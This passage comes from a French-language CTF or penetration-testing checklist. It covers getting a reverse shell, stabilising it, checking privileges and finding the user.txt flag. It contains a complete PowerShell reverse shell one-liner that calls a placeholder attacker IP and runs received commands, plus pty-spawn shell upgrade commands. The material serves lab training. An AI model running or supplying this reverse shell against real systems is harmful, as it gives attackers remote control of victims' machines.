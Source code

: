     # PowerShell
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<your_ip>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
    > *Question*: Quel type de reverse shell est le plus approprié pour le système cible?
  
  - [ ] Améliorer le shell obtenu
    ```bash
    # Sur Linux
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Puis Ctrl+Z
    stty raw -echo; fg
    export TERM=xterm
    
    # Sur Windows
    # Utiliser un shell meterpreter ou PowerShell
    ```
    > *Question*: Comment rendre votre shell plus stable et fonctionnel?
  
  - [ ] Vérifier les privilèges obtenus
    ```bash
    # Linux
    id
    
    # Windows
    whoami /all
    ```
    > *Question*: Avez-vous les privilèges nécessaires pour accéder au flag user.txt?

- [ ] **Validation de l'exploitation**
  - [ ] Localiser et lire le flag user.txt
    ```bash
    # Linux
    find / -name user.txt 2>/dev/null
    
    # Windows
    dir /s user.txt
    ```
    > *Question*: Avez-vous réussi à obtenir le flag user.txt?
  